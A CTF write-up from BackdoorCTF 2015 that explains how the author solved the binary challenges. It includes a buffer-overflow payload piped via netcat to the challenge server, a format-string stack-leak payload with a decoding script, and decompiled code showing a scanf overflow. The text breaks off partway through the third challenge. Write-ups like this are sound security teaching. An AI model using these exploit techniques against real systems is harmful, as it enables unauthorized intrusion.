 title: BackdoorCTF 2015 -- Binary + Misc
tags:
  - BackdoorCTF
  - CTF
  - Python
  - ruby
  - Pwnable
  - PPC
  - Misc
  - Forensic
categories:
  - write-ups
author: bruce30262
date: 2015-05-07 17:11:00
---
[BackdoorCTF 2015](https://backdoor.sdslabs.co/)  
For me, this is a challenge for CTF beginners. Most of the challenges are easy to solve, although some of them require some **"imagination"**...  

In this writeup, I'll post the solutions of all the binary challenges and the misc challenges that I solved in the CTF.  


# Binary
## echo
Basic BOF. Launch IDA Pro and we can see there's a gets() function in the main function. Just overwrite the return address to control the `eip` jump to the `sample()` function, which cat the flag.  
payload: `python -c 'print "A"*62+"\x4d\x85\x04\x08"' | nc hack.bckdr.in 8002`  

## team
Basic format string. To be honest I don't think this challenge worth 600 pt...  
The flag's on the stack. Just leak it with the format string vulnerability, wrote a script concat the string and bang, CTF  
payload: `%10$p.%11$p.%12$p.........%25$p`

``` python
temp = [35663364,64363031,................................]
flag = ""
for c in temp:
	flag += str(c).decode('hex')[::-1]
print "flag:", flag
```

## forgot
Another binary with the BOF vulnerability. It's a service that ask user to input their name and email address, and check the email address is whether a validate email address or not. 
Inspect the binary with IDA Pro, we found the following line has the BOF vulnerability:
`__isoc99_scanf("%s", &v11); // v11 = [bp-0x74]`
Moreover, there's a for loop with a switch-case in it to check the email address:
```c
for ( i = 0; ; ++i )  {
    v9 = i;
    if ( v9 >= strlen((const char *)&v11) )
      break;
    switch ( v23 )
    {
      case 1:.........
      case 2:.........
    }
}
```